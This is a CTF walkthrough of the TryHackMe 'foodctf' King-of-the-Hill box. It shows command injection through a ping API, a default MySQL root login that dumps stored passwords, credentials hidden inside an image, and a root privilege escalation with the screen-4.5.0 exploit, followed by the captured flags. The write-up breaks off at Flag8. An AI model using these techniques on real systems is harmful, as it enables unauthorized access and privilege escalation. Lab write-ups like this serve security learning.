



## Challenge Name: THM_KoTHF


Challenge Description:
A new start-up has a few issues with their web server.

Artifact Files:


### Approach
## Recon
Using `rustscan`  to scan port on target machine. Those open ports are 22,3306,9999,15065,16109,46969.


I use ` dirsearch <IP>' to find hidden url of the website have path /assets, robots.txt,


**Get all 8 flags **
I use ` dirsearch <IP>:15065' to find hidden url of the website have path /monitor the app to ping ip

Go main.js in that and using ai to get readbale form of it and we can have the logic is

```bash
// Print to console when the script loads
console.log("Hello, World!");

// Generic function to POST data to a server
async function postData(url = '', data = '') {
    const response = await fetch(url, {
        method: 'POST',
        cache: 'no-cache',
        credentials: 'same-origin',
        headers: { 'Content-Type': 'text/plain' },
        redirect: 'follow',
        referrerPolicy: 'no-referrer',
        body: data
    });
    return response; // Returns the raw response
}

// Function to validate IPv4 addresses
function isValidIP(ip) {
    const ipRegex = /^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.
                     (25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.
                     (25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.
                     (25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/x;
    return ipRegex.test(ip);
}

// Function to ping a host and display results
async function pingHost() {
    const outputSection = document.querySelector('#outputSection');
    const hostInput = document.querySelector('#hostToPing');
    const host = hostInput.value.trim();

    if (host && isValidIP(host)) {
        outputSection.textContent = `Pinging: ${host}\n`;

        try {
            const response = await postData('/api/cmd', `ping -c 4 ${host}`);
            const resultText = await response.text();
            outputSection.textContent += resultText;
        } catch (error) {
            outputSection.textContent += `Error pinging host: ${error}`;
        }

    } else {
        outputSection.textContent = 'IP address invalid';
    }
}

// Attach form submit event to prevent default submission
function onLoad() {
    const pingForm = document.getElementById("pingForm");
    pingForm.addEventListener("submit", function(event) {
        event.preventDefault();
        pingHost();
    });
}

// Initialize event listeners when page loads
window.addEventListener('DOMContentLoaded', onLoad);

```
And we can see the `ping -c 4 ${host}` code this way we can find something and we `isValidIP` function but we read in network in dev mode in browser we know it only work on client side so we can modify in on go.

Using `curl -X POST -d "ls -la" 10.10.220.196:15065/api/cmd ` to test it and it work
```bash
curl -X POST -d "ls -la" 10.10.220.196:15065/api/cmd
total 7900
drwxr-xr-x 6 bread bread    4096 Apr  6  2020 .
drwxr-xr-x 7 root  root     4096 Mar 28  2020 ..
-rw------- 1 bread bread       5 Apr  6  2020 .bash_history
-rw-r--r-- 1 bread bread     220 Mar 20  2020 .bash_logout
-rw-r--r-- 1 bread bread    3771 Mar 20  2020 .bashrc
drwx------ 2 bread bread    4096 Mar 20  2020 .cache
----r--r-- 1 bread bread      38 Mar 28  2020 flag
drwx------ 3 bread bread    4096 Mar 20  2020 .gnupg
drwxrwxr-x 3 bread bread    4096 Mar 20  2020 .local
-rwxrwxr-x 1 bread bread 8037916 Apr  6  2020 main
-rw-rw-r-- 1 bread bread    1513 Apr  6  2020 main.go
-rw-r--r-- 1 bread bread     825 Mar 28  2020 .profile
drwxrwxr-x 3 bread bread    4096 Apr  6  2020 resources

```
We we dont have permission to read flag so ry to acces mysql to read credentials default of mysql is (root:root)
```bash
bread@foodctf:~$ mysql -h 10.10.220.196 -u root -p
mysql -h 10.10.220.196 -u root -p
Enter password: root

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 6
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
5 rows in set (0.00 sec)

mysql> use users
use users
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| User            |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from User;
select * from User;
+----------+---------------------------------------+
| username | password                              |
+----------+---------------------------------------+
| ramen    | noodlesRTheBest                       |
| flag     | thm{2f30841ff8d9646845295135adda8332} |
+----------+---------------------------------------+
2 rows in set (0.00 sec)


```
Install img in <IP>:16109
```bash
binwalk foodctf.jpeg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
381172        0x5D0F4         gzip compressed data, from Unix, last modified: 2020-03-19 23:53:20

```

```bash

binwalk -e  foodctf.jpeg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
381172        0x5D0F4         gzip compressed data, from Unix, last modified: 2020-03-19 23:53:20

WARNING: One or more files failed to extract: either no utility was found or it's unimplemented


┌──(kali㉿kali)-[~]
└─$ cd _foodctf.jpeg.extracted

┌──(kali㉿kali)-[~/_foodctf.jpeg.extracted]
└─$ ls
5D0F4  5D0F4.gz

┌──(kali㉿kali)-[~/_foodctf.jpeg.extracted]
└─$ cat 5D0F4
creds.txt0000644000000000000000000000002513634770536011430 0ustar  rootrootpasta:pastaisdynamic


```
So we know img hidding something  and we got some credentials (pasta:pastaisdynamic)
`telnet <IP>:46969` using new credentials to it
```bash
telnet 10.10.220.196 46969
Trying 10.10.220.196...
Connected to 10.10.220.196.
Escape character is '^]'.
tccr:uwjsasqccywsg
foodctf login:
Login timed out after 60 seconds.
Connection closed by foreign host.

```
We see a credential it could be ROT13 but it not and we shift it to ROT14 and me got food:givemecookies and all credentials cant run sudo so we find another way to escalation shell.
```bash
find / -uid 0 -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/su
/bin/umount
/bin/mount
/bin/fusermount
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/vim.basic
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/screen-4.5.0
/usr/bin/chfn

/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/telnetlogin
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/snap/core/7270/bin/mount
/snap/core/7270/bin/ping
/snap/core/7270/bin/ping6
/snap/core/7270/bin/su
/snap/core/7270/bin/umount
/snap/core/7270/usr/bin/chfn
/snap/core/7270/usr/bin/chsh
/snap/core/7270/usr/bin/gpasswd
/snap/core/7270/usr/bin/newgrp
/snap/core/7270/usr/bin/passwd
/snap/core/7270/usr/bin/sudo
/snap/core/7270/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7270/usr/lib/openssh/ssh-keysign
/snap/core/7270/usr/lib/snapd/snap-confine
/snap/core/7270/usr/sbin/pppd
/snap/core/8689/bin/mount
/snap/core/8689/bin/ping
/snap/core/8689/bin/ping6
/snap/core/8689/bin/su
/snap/core/8689/bin/umount
/snap/core/8689/usr/bin/chfn
/snap/core/8689/usr/bin/chsh
/snap/core/8689/usr/bin/gpasswd
/snap/core/8689/usr/bin/newgrp
/snap/core/8689/usr/bin/passwd
/snap/core/8689/usr/bin/sudo
/snap/core/8689/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8689/usr/lib/openssh/ssh-keysign
/snap/core/8689/usr/lib/snapd/snap-confine
/snap/core/8689/usr/sbin/pppd

```

We see `/usr/bin/screen-4.5.0` that have a [exploit_link](https://www.exploit-db.com/exploits/41154)
```bash
pasta@foodctf:~$ nano exploit.sh
pasta@foodctf:~$ chmod +x exploit.sh
pasta@foodctf:~$ ./exploit.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’; did you mean ‘chroot’? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-pasta.

# whoami
root
```
And we will use it find all flag
Flag1: thm{2f30841ff8d9646845295135adda8332}


```bash
# cd  bread
# ls
flag  main  main.go  resources  text
# cat flag
thm{7baf5aa8491a4b7b1c2d231a24aec575}

```

Flag2:thm{7baf5aa8491a4b7b1c2d231a24aec575}
```bash
# ls
bread  food  pasta  ramen  tryhackme
# cd food
# ls -la
total 44
drwxr-xr-x 5 food food 4096 Oct 16 16:26 .
drwxr-xr-x 7 root root 4096 Mar 28  2020 ..
-rw------- 1 food food   17 Oct 16 16:26 .bash_history
-rw-r--r-- 1 food food  220 Mar 19  2020 .bash_logout
-rw-r--r-- 1 food food 3771 Mar 19  2020 .bashrc
drwx------ 2 food food 4096 Mar 19  2020 .cache
-rw-rw-r-- 1 food food   38 Mar 28  2020 .flag
drwx------ 3 food food 4096 Mar 19  2020 .gnupg
drwxrwxr-x 3 food food 4096 Mar 19  2020 .local
-rw------- 1 food food   23 Mar 19  2020 .mysql_history
-rw-r--r-- 1 food food  815 Mar 28  2020 .profile
# cat .flag
thm{58a3cb46855af54d0660b34fd20a04c1}

```


Flag3 is thm{58a3cb46855af54d0660b34fd20a04c1}


```bash
# # cd  /root
# ls
flag  king.txt  koth
# cat flag
thm{9f1ee18d3021d135b03b943cc58f34db}

```


Flag4 is thm{9f1ee18d3021d135b03b943cc58f34db}
 ```bash
 cd /var
# ls -la
total 56
drwxr-xr-x 13 root root   4096 Mar 28  2020 .
drwxr-xr-x 24 root root   4096 Mar 19  2020 ..
drwxr-xr-x  2 root root   4096 Mar 20  2020 backups
drwxr-xr-x 10 root root   4096 Mar 19  2020 cache
drwxrwxrwt  2 root root   4096 Aug  5  2019 crash
-rw-r--r--  1 root root     38 Mar 28  2020 flag.txt
drwxr-xr-x 41 root root   4096 Mar 20  2020 lib
drwxrwsr-x  2 root staff  4096 Apr 24  2018 local
lrwxrwxrwx  1 root root      9 Aug  5  2019 lock -> /run/lock
drwxrwxr-x 10 root syslog 4096 Mar 30  2020 log
drwxrwsr-x  2 root mail   4096 Aug  5  2019 mail
drwxr-xr-x  2 root root   4096 Aug  5  2019 opt
lrwxrwxrwx  1 root root      4 Aug  5  2019 run -> /run
drwxr-xr-x  3 root root   4096 Mar 19  2020 snap
drwxr-xr-x  4 root root   4096 Aug  5  2019 spool
drwxrwxrwt  4 root root   4096 Oct 16 16:48 tmp
# cat flag.txt
thm{0c48608136e6f8c86aecdb5d4c3d7ba8}

 ```


Flag5 is thm{0c48608136e6f8c86aecdb5d4c3d7ba8}
```bash
```


Flag6 is

```bash
# cd tryhackme
# ls -la
total 7644
drwxr-xr-x 5 tryhackme tryhackme    4096 Apr  6  2020 .
drwxr-xr-x 7 root      root         4096 Mar 28  2020 ..
-rw-r--r-- 1 tryhackme tryhackme     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 tryhackme tryhackme    3771 Apr  4  2018 .bashrc
drwx------ 2 tryhackme tryhackme    4096 Mar 19  2020 .cache
-rw-rw---- 1 tryhackme tryhackme      38 Mar 27  2020 flag7
drwx------ 3 tryhackme tryhackme    4096 Mar 19  2020 .gnupg
-rwxrwxr-x 1 tryhackme tryhackme 7390798 Mar 20  2020 img
-rw-rw---- 1 tryhackme tryhackme  381312 Apr  6  2020 img.jpg
drwxrwxr-x 3 tryhackme tryhackme    4096 Mar 20  2020 .local
-rw------- 1 tryhackme tryhackme     590 Mar 20  2020 .mysql_history
-rw-r--r-- 1 tryhackme tryhackme     825 Mar 28  2020 .profile
-rw-r--r-- 1 tryhackme tryhackme       0 Mar 19  2020 .sudo_as_admin_successful
-rw------- 1 root      root          582 Mar 20  2020 .viminfo
-rw-rw-r-- 1 tryhackme tryhackme     173 Mar 20  2020 .wget-hsts
# cat flag7
thm{5a926ab5d3561e976f4ae5a7e2d034fe}

```


Flag7 is thm{5a926ab5d3561e976f4ae5a7e2d034fe}


Flag8
